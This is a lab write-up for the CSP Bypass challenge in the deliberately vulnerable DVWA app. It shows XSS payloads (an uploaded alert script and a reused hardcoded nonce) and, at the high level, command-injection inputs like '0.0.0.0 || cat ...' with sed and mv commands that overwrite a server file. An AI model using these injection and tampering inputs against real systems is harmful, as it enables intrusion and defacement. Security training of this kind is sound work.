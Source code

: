 # Difficulty - Low

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/low.php)


In the [source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/low.php) there is a comment:
```php
# https://pastebin.com/raw/R570EE00
```
If we try to include this link we see this in browser console:
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Pictures/3.png)

The file included should be a JS file (Mime type = JavaScript MIME type).

So, I created this file: 
```js
alert(1);
````
I saved as `test.js` and uploaded in the `File Upload` section.
The file was uploaded and I included here:

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Pictures/1.png)

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Pictures/2.png)


# Difficulty - Medium

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/medium.php)

In the [source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/medium.php) is another interesting comment:
```php
# <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```
If we try this payload it works. 

This works because the nonce token is the set correctly (like in response header) and the `X-XSS-Protection` is disabled.


# Difficulty - High

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/high.php)

We have this hint: 
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Pictures/5.png)

So, in `Command Injection` challange I inserted those command:

`0.0.0.0 || find / ` -> to see where is the file.

`0.0.0.0 || cat /var/www/html/vulnerabilities/csp/source/jsonp.php` -> to see what is there.
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Pictures/4.png)

`0.0.0.0 || sed  's/15/<anything you want>/g' /var/www/html/vulnerabilities/csp/source/jsonp.php > /var/www/html/vulnerabilities/csp/source/jsonp.php2` -> to replace the `15` with something else. For some reasons I couldn't replace in file with `sed -i`  so I used this redirect.

`0.0.0.0 || mv /var/www/html/vulnerabilities/csp/source/jsonp.php2 /var/www/html/vulnerabilities/csp/source/jsonp.php` -> to save in the correct file.



# Difficulty - Impossible

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/impossible.php)
